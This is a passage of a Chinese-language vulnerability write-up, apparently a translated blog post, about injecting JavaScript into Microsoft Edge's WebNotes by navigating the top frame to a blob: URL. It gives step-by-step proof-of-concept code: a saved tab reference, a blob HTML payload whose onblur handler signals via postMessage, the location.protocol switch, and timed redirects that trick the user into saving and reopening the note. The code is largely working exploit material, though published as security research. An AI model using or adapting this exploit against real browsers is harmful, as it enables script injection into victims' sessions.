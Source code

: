 事实证明，我们的确保留着对WebNote标签页的引用，因此我们可以通过各种方式来影响该标签页。

与之前的研究一样，我们可以从`blob:` URI scheme开始。之前我一直在Edge中碰到一个bug，可以将顶部frame导航到某个`blob:` URL，这是Edge出于某些原因明确禁止的一种行为。因此这里我使用这个bug将WebNote标签页导航到某个`blob` URL，出乎我意料的是，WebNotes没有遵循正常的操作过程，而是会将已创建的blob HTML内容保存在我们已保存的某个WebNote中。

如下图所示，我使用如下代码诱骗Edge将顶部frame导航到某个blob URL：

[![](https://p0.ssl.qhimg.com/t01aafe7b92128008c9.png)](https://p0.ssl.qhimg.com/t01aafe7b92128008c9.png)

打断WebNotes正常操作过程，注入Javascript的具体方法如下：

1、用户点击任意位置，打开新标签页，保存对该标签页的引用。

```
window.onclick=e=&gt;`{`
    fer=open('/1.html','qab');
`}`
```

2、新标签页中包含一个页面，可以通过上图所示的代码将顶部frame导航至某个blob URI。

3、指导用户创建WebNote，我们可以通过`onblur`事件处理器（handler）来探测用户行为，handler会通过`postMessage`向原始页面发送消息，表示用户正在创建WebNote。

```
a=URL.createObjectURL(new Blob(['Create a WebNote and start drawing something.&lt;script&gt;window.onblur=e=&gt;`{`opener.postMessage("","*",[]);`}`&lt;/script&gt;'],`{`type:'text/html'`}`));

history.replaceState('','',a.split('/')[3]);

location.protocol='blob:http:';
```

4、一旦用户创建完WebNote，主页面会（使用步骤1保存的引用）再次将标签页重定向到第三个页面。

```
function step()`{`
    if(go)`{`

    setInterval(function()`{`
    fer.close();
    qmsg.innerHTML='Now open the saved WebNote.';
    `}`,2500);


    `}`else`{`
        setTimeout(function()`{`
    fer=open('/2.html','qab');

    `}`,2500);
    go=true;
    `}`
`}`


window.addEventListener("message", step, false);
```
